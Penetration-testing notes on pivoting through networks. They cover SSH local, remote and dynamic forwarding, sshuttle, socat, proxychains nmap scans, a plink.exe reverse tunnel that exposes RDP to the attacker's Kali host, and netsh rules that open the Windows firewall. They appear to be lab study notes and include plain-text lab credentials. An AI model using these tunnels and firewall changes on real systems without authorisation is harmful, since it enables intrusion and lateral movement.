 # *Linux*

LHOST == listener aka tunnel start
RHOST == "Receiver" aka tunnel end
FHOST == TARGET we're trying to get to
## Local
![[ssh_lpf 1.jpg]]
WAN(**LHOST**) ==== INTERNAL(**RHOST**) ----> SUB-INTERNAL(**FHOST**)
```shell

ssh -N -L LHOST:LPORT:RHOST:RPORT usern@RHOST



# 2. In Kali
# service    LPORT         LHOST
#  \/         \/            \/                    
smbclient -p 4455 -L //192.168.183.63/ -U hr_admin --password=Welcome1234
```
## Remote
***Use if inbound ssh is filtered/closed***
```shell
ssh -N -R 127.0.0.1:LPORT:FHOST:FPORT kali@192.168.%.%
# service access via 127.0.0.1 LPORT 
```
![[Screenshot 2024-10-07 at 8.49.31 PM.png]]
kali(**LHOST**) ==== WAN(**RHOST**) ----> INTERNAL(**FHOST**)
```shell
# 1. In Kali
#
sudo systemctl start ssh
sudo ss -tulpn



# 2. On WAN
#                   LPORT    FHOST    FPORT       LHOST    
#                    \/       \/       \/          \/
ssh -N -R 127.0.0.1:2345:10.4.232.215:5432 kali@192.168.%.%



# 3. In Kali, check using ss -tulpn for a connection
#
# Access using the 127.0.0.1:2345
psql -h 127.0.0.1 -p 2345 -U postgres
```
## sshuttle (dynamic)
*Alternate to Dynamic Port Forward and PREFERRED if we have direct access to an SSH server, behind which is a more complex internal network as classic dynamic port forwarding might be difficult to manage*
***REQUIRES***
1. **root** on SSH client initiating connection, 
2. **python3** on the SSH server
![[ssh_dpf.jpg]]WAN(**LHOST**) ==== INTERNAL(**RHOST**) ----> SMB on SUB-INTERNAL(**FHOST**) 
```shell
# 1. on WAN, setup local port forward
#                            INTERNAL-with-ssh
#                                  \/
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22



# 2. in KALI , run routing to other SUB-INTERNAL addresses:
#                                 WAN           INTERNAL     SUB-INTERNAL
#                                  \/               \/             \/
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
#
# Access service. SMB as an example
smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
## Dynamic
![[ssh_dpf.jpg]]
WAN(**LHOST**) ==== INTERNAL(**RHOST**) ----> NMAP on SUB-INTERNAL(**FHOST**)
```shell
# 1. On WAN
#                LPORT     username     RHOST
#                  \/         \/          \/
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215



# 2. In Kali, change proxychains config to ADD WANIP and port from above
# sudo mousepad /etc/proxychains4.conf &
#                 LPORT
#                   \/
# socks5 WANIP 9999
# nmap scan against the 172.16.232.217 FHOST
seq 4800 4900 | xargs -P 50 -I{} proxychains nmap -p {} -sT -Pn --open -n -T4 --min-parallelism 100 --min-rate 1 --oG proxychains_nmap --append-output 172.16.232.217
cat proxychains_nmap | grep -e "^Host.*open"

# box64 via proxychains
proxychains box64 ./ssh_dynamic_client -i 172.16.232.217 -p 4872

#https://www.hackwhackandsmack.com/?p=1021
```
## Remote Dynamic
![[Screenshot 2024-10-07 at 8.57.59 PM.png]]
Kali(**LHOST**) ==== WAN(**RHOST**) ----> NMAP on SUB-INTERNAL(**FHOST**)
```shell
# 1. On WAN
#
ssh -N -R 9998 kali@192.168.#.#



# 2. In Kali, proxychains config to match port from above
#
# socks5 127.0.0.1 9998

# can reach hosts now so example showing nmap
seq 9000 9100 | xargs -P 50 -I{} proxychains nmap -p {} -sT -Pn --open -n -T4 --min-parallelism 100 --min-rate 1 --oG proxychains_nmap_remote_dynamic --append-output 10.4.232.64
cat proxychains_nmap_remote_dynamic | grep -e "^Host.*open"

# box64 via proxychains
proxychains box64 ./ssh_remote_dynamic -i 10.4.232.64 -p 9062
```


# *Windows*
## ssh
Same methodologies
## Plink.exe
***if no ssh, can use this which is putty made ssh client***
![[Screenshot 2024-10-07 at 9.14.35 PM.png]]
Example Remote Port Forward to get RDP access
```shell
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 KALI_IP
```
## netsh
***Requires** **ADMIN** and/or **UAC***
![[Screenshot 2024-10-08 at 5.14.24 PM.png]]
|| WAN ===== INTERNAL with database service
```shell
# 1. On WAN, 
# CREATE forwarder
#
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215
#
# CHECK forwarder was created
netstat -anp TCP | find "2222"
netsh interface portproxy show all
#
# POKE a Hole in the Windows Firewall
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow



# 2. In KALI check Host is accessible
#
sudo nmap -sS 192.168.50.64 -Pn -n -p2222
#
# Access service. SSH as example
ssh database_admin@192.168.50.64 -p2222



# CLEANUP firewall rule and delete the forwarder once finished
#
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```

